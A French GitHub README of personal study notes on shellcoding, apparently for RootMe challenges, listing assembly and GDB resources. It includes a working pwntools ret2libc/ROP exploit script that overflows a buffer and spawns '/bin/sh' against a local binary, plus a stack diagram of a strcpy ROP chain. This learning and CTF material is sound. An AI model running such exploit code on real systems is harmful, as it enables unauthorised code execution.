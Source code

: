# Petit readme où j'étale les ressources et réflexions utilisées au fur et à mesure de mon apprentissage des bases du shellcoding 


## introduction au shellcoding avec pile executable - RootMe
[]()


## compilation et extraction d'un shellcode simple en assembleur
[compile.sh](./compile.sh)

## premier challenge de shellcoding rootme 

## RESSOURCES assembleur x64
[Assembly Language & Computer Architecture Lecture (CS 301)](https://www.cs.uaf.edu/2017/fall/cs301/lecture/09_11_registers.html)

[misc/syscalls64.md · Hackndo](https://github.com/Hackndo/misc/blob/master/syscalls64.md)

[gdb.pdf](https://web.cecs.pdx.edu/~apt/cs510comp/gdb.pdf)

[Debugging assembly with GDB – ncona.com – Learning about computers](https://ncona.com/2019/12/debugging-assembly-with-gdb/)

[x64_cheatsheet.pdf](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)

## tester si la pile est executable
```{bash}

```

## 

## BYPASS DE NX et ASLR en utilisant ret2libc et des ROP

[www.trustwave.com](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/babys-first-nxplusaslr-bypass/)

La librairie 'struct' et de l'huile de coude pour trouver et mettre sous forme de shellcode les bonnes adresses mais la librairie 'pwtools' peut aider à cela :

```{python}
from pwn import *

# Configuration de la connexion au binaire vulnérable
context.binary = './vulnerable_program'
elf = ELF('./vulnerable_program')
libc = elf.libc

# Trouver l'offset du dépassement de tampon
offset = 64

# Trouver les gadgets ROP
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

# Adresse de la fonction system() dans libc
system_addr = libc.symbols['system']

# Adresse de la chaîne "/bin/sh" dans libc
bin_sh_addr = next(libc.search(b'/bin/sh'))

# Construire le payload
payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(bin_sh_addr)
payload += p64(ret)
payload += p64(system_addr)

# Envoyer le payload au programme vulnérable
p = process('./vulnerable_program')
p.sendline(payload)
p.interactive()
```



exemple de ROP :
l'instruction pop-pop-ret après strcpy

AVANT STRCPY:
strcpy@plt <- EIP, adresse de retour originale écrasée par buffer overflow
pop-pop-ret@ROP
dst (bss)
src (adresse du char 's')


PILE DURANT STRCPY :
ret addr (push par call strcpy) <- EIP (pointe en fait sur le ROP car le shellcode continue dans la pile)
pop-pop-ret@ROP
dst (bss)
src
reste du shellcode stoqué dans la pile...

PILE APRES STRCPY (ret dans strcpy dépile la tete de pile) :
pop-pop-ret@ROP <- EIP
dst
src
reste du shellcode ...

/!\ sans le ROP, on aurait EIP qui pointe sur dst (suite logique du programme du shellcode), et ferait crash le programme

PILE APRES ROP :
reste du sellcode instruction 1 (prochain strcpy ) <- EIP 
(dépilé dans EIP mais pour l'image on laisse dans la pile)
reste du shellcode ...
